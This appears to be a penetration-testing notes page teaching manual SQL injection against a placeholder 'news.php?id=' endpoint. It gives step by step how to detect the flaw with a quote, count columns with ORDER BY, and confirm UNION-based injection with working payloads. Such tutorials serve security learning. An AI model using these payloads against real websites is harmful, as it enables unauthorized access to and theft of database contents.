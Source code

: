 * ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDWiiOz6DDS8VHphrHu%2Fimage.png)
* ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDWiTwNHNhx\_yOKsvmU%2Fimage.png)

## Identifying SQL Injection

* Let's say that you have some site like this

```
http://$ip/news.php?id=5
```

* Or a form like this
* ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M0-osTGaSUSFX4K\_LQX%2F-M0-q3W0Zwp4cMYRo-cQ%2Fimage.png)
* Now to test if it is vulnerable you add to the end of url ' (quote).

```
http://$ip/news.php?id=5'
```

* If you get an error like:
* "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc..." or something similar
* That means its vulnerable !
* Find the number of columns
* To find number of columns you use statement ORDER BY (tells database how to order the result) so how to use it? Well just increment the number until you get an error.

```
http://$ip/news.php?id=5 order by 1/* <-- no error
http://$ip/news.php?id=5 order by 2/* <-- no error
http://$ip/news.php?id=5 order by 3/* <-- no error
http://$ip/news.php?id=5 order by 4/* <-- error (you get message like this Unknown column '4' in 'order clause' or something like that)
```

* That means that the database has 3 columns, cause you get an error on 4.

## Check for UNION function

* With union you can select more data in one SQL statement.
* So you have:

```
http://$ip/news.php?id=5 union all select 1,2,3/* (you already found that number of columns are 3 in section 2)
```

* If that doesn't work or you get some error, then try:

```
http://$ip/news.php?id=5 union all select 1,2,3 -- - #note the dashes at the end
```

* The dashes tells SQL not to process anything passed the 3, in the case above.
* If you see some numbers on screen, i.e 1 or 2 or 3 then the UNION works!!
